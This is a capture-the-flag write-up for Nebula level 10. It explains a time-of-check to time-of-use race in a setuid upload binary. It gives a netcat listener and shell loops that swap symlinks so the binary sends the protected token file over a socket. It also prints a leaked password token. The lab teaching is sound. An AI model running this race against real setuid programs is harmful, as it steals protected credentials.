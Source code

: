 ```yaml
---
title: "Writeup: Nebula (level 10)"
date: 2020-12-22T14:36:26+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/).

<br>

## Level 10

The description of Level 10 is provided as follows. 

```
The setuid binary at /home/flag10/flag10 binary will upload any file given, 
as long as it meets the requirements of the access() system call.

To do this level, log in as the level10 account with the password level10. 
Files for this level can be found in /home/flag10.
```

<br>

## Solution 1

In this challenge, Nebula left a sensitive file "x" in /home/level10. 

![](https://github.com/chuang76/image/blob/master/10-2.PNG?raw=true)

It contains ASCII text. Though it shows nothing when we type in cat command (since the file may contain too many blank lines), we can use od command to view the contents of x instead. 

![](https://github.com/chuang76/image/blob/master/10-3.PNG?raw=true)

As you can see, it shows 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27. This strange token may be the password. Let's give it a try. 

![](https://github.com/chuang76/image/blob/master/10-4.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/10-5.PNG?raw=true)

<br>

## Solution 2

Let's go back to the directory /home/flag10. Here is its contents. 

![](https://github.com/chuang76/image/blob/master/10-1.PNG?raw=true)

The source code of the executable flag10 is available. The program is going to check the file permission, create a socket, connect to the port 18211, then read something from the file, and write (send) the data to the socket.

```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

<br>

## The first attempt

Our goal is to view the contents of the file "token". So I just create a file in /tmp directory which is pointed to /home/flag10/token via the symbolic link. Then open two terminals (you can use Ctrl + Alt + Fn to switch between TTYs), for the one is used to listen the port and receive the message, the other is used to run the executable /home/flag10/flag10 with the argument 127.0.0.1 (host) and /tmp/vul (file). 

However, it's failed. The error message indicates that I don't have access to the file. The reason is: the argument R_OK in the function access() checks *real user ID*, not effective user ID like open() function checks. Therefore, we can not pass the verification access() simply with the symbolic link. 

<br>

## The second attempt

Let's view the source code again. The program is a classical [time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) (TOCTOU), which is a software bug caused by the race condition. Though we don't have the ability to change the internal memory of the program, we can exploit the race condition to trick the Set-UID. That is, after passing the verification, and before opening the file, we make the file points to our target file /home/flag10/token. Since modern processors run billions of instructions per second, the duration (TOCTOU window) is very short, we need to try it repeatedly. To win the race condition, we can design the workflow as follows. 

```
1. TTY1: used to keep listening to the port 18211
2. TTY2: keep running the executable /home/flag10/flag10
3. TTY3: keep creating a symbolic link to a writable file (pass the verfication)
         and creating another symbolic link to /home/flag10/token (our target)
```

Hence, for TTY1, run 

```
$ nc -k -l 18211
```

for TTY2, run

```
$ while true; do /home/flag10/flag10 /tmp/vul 127.0.0.1; done
```

for TTY3, run

```
$ while true; do ln -sf /tmp/test /tmp/vul; ln -sf /home/flag10/token /tmp/vul; done
```

Here is the result of TTY1. As you can see, sometimes it prints out "test" (contents of /tmp/test), while sometimes it prints out the contents of our target file, /home/flag10/token. 

![](https://github.com/chuang76/image/blob/master/10-10.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/10-11.PNG?raw=true)









